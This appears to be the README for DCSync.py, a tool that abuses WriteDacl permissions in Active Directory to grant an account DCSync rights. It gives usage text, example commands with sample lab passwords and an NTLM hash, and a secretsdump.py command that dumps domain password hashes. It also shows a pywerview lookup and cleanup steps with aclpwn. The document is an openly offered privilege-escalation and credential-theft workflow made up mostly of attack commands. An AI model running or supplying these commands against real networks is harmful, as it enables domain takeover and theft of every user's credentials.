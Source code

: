 # Adding DCSync Permissions
Mostly copypasta from https://github.com/tothi/rbcd-attack
```
usage: DCSync.py [-h] -dc FQDN -t USERNAME [-hashes LMHASH:NTHASH] [-k] identity

WriteDacl Attack: To abuse WriteDacl to a domain object, you may grant yourself the DcSync privileges.

positional arguments:
  identity              domain\username:password, attacker account with write access to target computer properties (NetBIOS domain name must be used!)

options:
  -h, --help            show this help message and exit
  -dc FQDN              FQDN of the Domain Controller
  -t USERNAME           Target user to be escalated in format *Distinguished Names*
  -hashes LMHASH:NTHASH
                        Hash for LDAP auth (instead of password)
  -k                    If you want to use a Kerberos ticket

 Examples:
     DCSync.py -dc dc01.n00py.local -t 'CN=n00py,OU=Employees,DC=n00py,DC=local'  n00py\Administrator:Password123
     DCSync.py -dc dc01.n00py.local -t 'CN=n00py,OU=Employees,DC=n00py,DC=local'  n00py\Administrator -k
     DCSync.py -dc dc01.n00py.local -t 'CN=spoNge369,CN=Users,DC=n00py,DC=local' 'n00py.local\user_with_writeDACL:P@$$w0rd123'
     DCSync.py -dc dc01.n00py.local -t 'CN=spoNge369,CN=Users,DC=n00py,DC=local' 'n00py.local\user_with_writeDACL' -hashes :32693b11e6aa90eb43d32c72a07ceea6

 DCSync Attack:
     secretsdump.py 'n00py.local/spoNge369:passw0rd123!@dc01.n00py.local'

 Search Distinguished Names(DN) of spoNge369:
     pywerview get-netuser -u'any_valid_user' -p'password321$' -t dc01.n00py.local | perl -wnlE'print if/distinguishedname.+spoNge369/'
  
```

To clean up after you are done, use ACLpwn https://github.com/fox-it/aclpwn.py. This tool is pretty old and not maintained, but you can get it to work. One thing you will need to do is replace “neo4j.v1” with just “neo4j” in database.py. To restore the ACLs to the original configuration, use the restore state file created by the DCSync tool.




## Dependencies:

Impacket <br>
`pip3 install pywerview`

For kerberos:
```
apt install heimdal-dev -y
apt install libkrb5-dev -y
python3 -m pip install gssapi
```
